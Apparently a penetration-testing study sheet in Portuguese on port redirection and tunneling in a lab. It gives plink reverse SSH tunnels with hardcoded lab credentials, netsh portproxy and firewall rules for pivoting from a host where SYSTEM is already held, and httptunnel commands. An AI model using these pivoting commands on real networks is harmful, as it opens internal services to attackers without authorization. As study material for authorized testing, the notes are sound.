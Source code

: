     
    sudo systemctl start rinetd
    


## Plink.exe

OBS: Sem interação

    plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
    
    plink.exe -ssh -l kali -pw R3dT3@m -R 192.168.49.120:1080:3389 192.168.49.120

OBS: Com interação

    cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

## netsh

netsh é uma utilidade que deve ser utilizada com privilégios elevados. Para o cenário do nosso teste, já com SYSTEM na máquina, não temos de lidar com UAC, portanto, podemos prosseguir com a condução dos testes. Primeiro devemos chegar se o serviço IP Helper está ativo:

    services

![b47f02d3bb0d8d154a6027a84543ce8c-port_redirection_and_tunneling_03](../../media/b47f02d3bb0d8d154a6027a84543ce8c-port_redirection_and_tunneling_03.png)

### local port forwarding

    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=10.11.1.13 connectport=80 connectaddress=10.11.1.123
    
    netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.120.101 connectport=445 connectaddress=172.16.120.102
    
    netsh interface portproxy add v4tov4 listenport=8089 listenaddress=172.16.120.101 connectport=8090 connectaddress=192.168.49.120
    
Se atentar com o firewall. Ele pode bloquear nossas conexões. Sendo assim, devemos inserir uma regra básica nele...

    netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
    
    netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=172.16.120.101 localport=8089 action=allow

## HTTP Tunnel

    apt-cache search httptunnel
    sudo apt install httptunnel
    
    hts --forward-port localhost:8888 1234
    ps aux | grep hts
    ss -antp | grep "1234"
    
    htc --forward-port 8080 10.11.0.128:1234
    ps aux | grep htc
    ss -antp | grep "8080"
    